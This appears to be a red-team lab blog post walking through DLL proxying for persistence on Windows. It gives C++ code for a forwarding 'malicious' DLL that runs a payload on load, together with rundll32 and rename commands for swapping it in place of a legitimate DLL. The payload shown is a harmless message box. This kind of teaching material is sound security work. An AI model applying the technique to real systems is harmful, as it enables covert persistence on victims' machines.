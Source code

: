```yaml
---
layout: post
title: "dll proxying for persistence"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


# DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:

![](<../../.gitbook/assets/image (654).png>)

## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll (this is the DLL we are hijacking) to legit1.dll (this is still the same DLL we are hijacking, just with a new name)&#x20;
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:

{% tabs %}
{% tab title="legit-dll.cpp" %}
```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```
{% endtab %}
{% endtabs %}

Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:

<div align="center">

<img src="../../.gitbook/assets/image (638).png" alt="">

</div>

To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```
rundll32 c:\temp\legit.dll,exportedFunction1
```

![](<../../.gitbook/assets/image (639).png>)

We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:

{% tabs %}
{% tab title="malicious-dll.cpp" %}
```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward (technical name is `Forward Export`) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:

![](<../../.gitbook/assets/image (645).png>)

Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```
rundll32 malicious.dll,whatever
```

![](<../../.gitbook/assets/image (643).png>)

### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept.&#x20;

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:

![](<../../.gitbook/assets/image (644).png>)

Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```

![](../../.gitbook/assets/rename-files.gif)

### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:

![Successful DLL proxying in action](../../.gitbook/assets/dll-proxying-forwarding-in-action.gif)

Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf)
@spotheplanet
